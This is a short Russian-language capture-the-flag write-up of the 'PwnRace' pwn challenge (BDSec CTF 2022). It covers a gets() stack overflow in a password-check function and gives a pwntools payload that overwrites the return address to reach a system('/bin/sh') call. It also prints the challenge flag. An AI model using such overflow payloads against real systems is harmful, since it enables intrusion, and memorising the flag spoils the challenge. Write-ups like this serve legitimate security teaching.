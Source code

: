 # PwnRace
Category: pwn

Score: 200 (solved by 52 teams)

nc 159.223.101.241 31337


# Introduction

Дана [программа](https://github.com/silver12-A/Writeups/blob/main/CTF_2022/BDSec_CTF_2022/pwn/PwnRace/pwnrace).

При анализе в IDA PRO видно, что необходимо выполнить переполнение буфера и перетереть адрес возврата на функцию `shell()`, где будет выполнен системный вызов `return system("/bin/sh");`

# Analyzing IDA PRO

Из `main()` вызывается функция `heath_check()`

```
int heath_check()
{
  char s1[256]; // [rsp+0h] [rbp-100h] BYREF

  printf("\x1B[0;32mEnter Password:\n\x1B[0m");
  gets(s1);
  if ( strcmp(s1, "hAcK_Th3_Pl@n3t") )
  {
    printf("\x1B[41mWrong Password!!!!\n\x1B[0m");
    _exit(0);
  }
  printf("\x1B[4;32mEnter Password:\n\x1B[0m");
  return system("top -b -n 1");
}
```

# Solver:

Функция `shell()` находится по адресу `0x4013A0`, но в данном случае эксплойт не отработает. Я часто встречаюсь с такими ошибками на ctf, но если взять адрес, где указатель на строку помещается в регистр, а именно `0x4013A8`, то все получится!!!

```
.text:00000000004013A8                 lea     rax, command    ; "/bin/sh"
.text:00000000004013AF                 mov     rdi, rax        ; command
.text:00000000004013B2                 call    _system
```
Т.к. функция `gets(s1);` уязвима, мы можем перетереть массив `s1[256]`, тем самым перетереть `rsp` и адресс возврата `ret`. Но еще необходимо , чтобы s1 была равна hAcK_Th3_Pl@n3t. Это можно сделать так:

Воспользуемся пакетом python3 pwn-tools 
```
exploit=b'hAcK_Th3_Pl@n3t\x00'+b'a'*248+p64(0x4013A8)

```

# Solution script
Сценарий реализации эксплойта можно найти [здесь](https://github.com/silver12-A/Writeups/blob/main/CTF_2022/BDSec_CTF_2022/pwn/PwnRace/solver.py).


![pwn](https://user-images.githubusercontent.com/55994705/180290992-0980d087-3190-4a3b-8124-938fb454a78a.PNG)

# флаг: 
BDSEC{pwn_is_the_way_to_haven}
